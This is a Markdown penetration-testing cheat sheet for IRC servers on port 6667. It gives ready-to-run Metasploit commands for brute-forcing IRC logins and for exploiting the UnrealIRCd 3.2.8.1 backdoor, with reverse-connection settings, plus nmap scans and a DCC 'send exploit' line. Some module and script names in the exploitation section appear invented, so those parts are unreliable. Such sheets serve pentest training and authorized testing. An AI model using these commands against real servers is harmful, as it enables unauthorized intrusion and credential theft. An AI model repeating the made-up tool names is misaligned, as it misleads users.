 # IRC

## Enumeration

### Metasploit

##### irc_brute
```bash
use auxiliary/scanner/irc/irc_brute
set RHOSTS [IP]
set RPORT 6667
set USER_FILE [user file]
set PASS_FILE [password file]
run
```

##### irc_away
```bash
use auxiliary/scanner/irc/irc_away
set RHOSTS [IP]
set RPORT 6667
run
```

##### irc_banner
```bash
use auxiliary/scanner/irc/irc_banner
set RHOSTS [IP]
set RPORT 6667
run
```

### Nmap

##### nmap Version Detection
```bash
nmap -p 6667 -sV [IP]
```

##### nmap Banner Grabbing
```bash
nmap -p 6667 --script=irc-banner [IP]
```

### IRC Client

##### irc
```bash
irc [IP] 6667
```

##### irc (Join Channel)
```bash
/join [channel]
```

##### irc (Send Message to Channel)
```bash
/msg [channel] [message]
```


---
---


## Exploitation

### Metasploit

##### unreal_ircd_3281_backdoor
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST [IP]
```

##### irc_dcc
```bash
use exploit/unix/irc/irc_dcc
set RHOSTS [IP]
set RPORT 6667
set LHOST [local IP]
set LPORT [local port]
run
```

##### irc_backdoor
```bash
use exploit/unix/irc/irc_backdoor
set RHOSTS [IP]
set RPORT 6667
set LHOST [local IP]
set LPORT [local port]
run
```

### Nmap

##### nmap (IRC DCC Backdoor Check)
```bash
nmap --script=irc-dcc [IP] -p 6667
```

##### nmap (IRC Backdoor Detection)
```bash
nmap --script=irc-backdoor [IP] -p 6667
```

### IRC Client

##### Send Exploit (DCC)
```bash
/dcc send [IP] [FILE_NAME] [/FILE/LOCATION/FILE]
```
